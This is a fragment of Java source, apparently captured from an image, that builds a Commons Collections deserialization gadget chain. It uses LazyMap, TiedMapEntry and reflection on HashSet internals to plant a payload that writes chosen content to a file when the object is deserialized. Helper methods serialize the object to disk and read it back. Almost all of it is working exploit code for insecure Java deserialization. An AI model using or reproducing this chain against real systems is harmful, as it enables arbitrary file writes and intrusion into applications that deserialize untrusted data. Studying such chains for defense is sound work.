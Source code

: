 ```java
        Map map = (Map) constructor.newInstance(path, 2);
        Transformer transformer = new ConstantTransformer("content to write".getBytes(StandardCharsets.UTF_8));

        Map lazyMap = LazyMap.decorate(map, transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, fileName);

        HashSet<Object> hs = new HashSet<>(1);
        hs.add("aaa");
        setPut(hs, entry);
        ser(hs);
    }

    private static void ser(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(o);
        objectOutputStream.close();

        File file = new File("E:/ser");
        FileOutputStream outputStream = new FileOutputStream(file);
        outputStream.write(baos.toByteArray());
        outputStream.close();
    }

    private static void deser() throws Exception {
        byte[] fileBytes = Files.readAllBytes(Paths.get("E:/ser"));
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(fileBytes));
        objectInputStream.readObject();
    }

    public static void setPut(HashSet<Object> hs, Object o) throws Exception {
        // 获取HashSet中的HashMap对象
        Field field;
        try {
            field = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            field = HashSet.class.getDeclaredField("backingMap");
        }
        field.setAccessible(true);
        HashMap innerMap = (HashMap) field.get(hs);

        // 获取HashMap中的table对象
        Field field1;
        try {
            field1 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            field1 = HashMap.class.getDeclaredField("elementData");
        }
        field1.setAccessible(true);
        Object[] array = (Object[]) field1.get(innerMap);

        // 从table对象中获取索引0 或 1的对象，该对象为HashMap$Node类
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        // 从HashMap$Node类中获取key这个field，并修改为tiedMapEntry
        Field keyField = null;
        try {
            keyField = node.getClass().getDeclaredField("key");
```